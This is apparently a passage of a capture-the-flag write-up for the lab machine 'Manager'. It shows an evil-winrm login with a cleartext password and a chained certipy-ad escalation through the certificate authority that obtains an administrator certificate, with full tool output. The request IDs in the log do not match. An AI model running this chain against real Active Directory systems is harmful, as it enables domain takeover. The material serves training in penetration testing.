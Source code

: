 ```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Manager-10.10.11.236/backup]
└─$ evil-winrm -i 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'                  
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> whoami
manager\raven
```

Get user flag 

At this point I tried everything to get root but I constantly got errors with the certificate. The way to own this machine is **[this explained in hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)**

Here I left some notes about my tries, but the pfx file must be malformed as you can see in the log the error "Failed to request certificate"

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Manager-10.10.11.236]
└─$ certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb' && certipy-ad ca -ca 'manager-DC01-CA' -issue-request 22 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' && certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 22
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saved certificate and private key to 'administrator.pfx'
```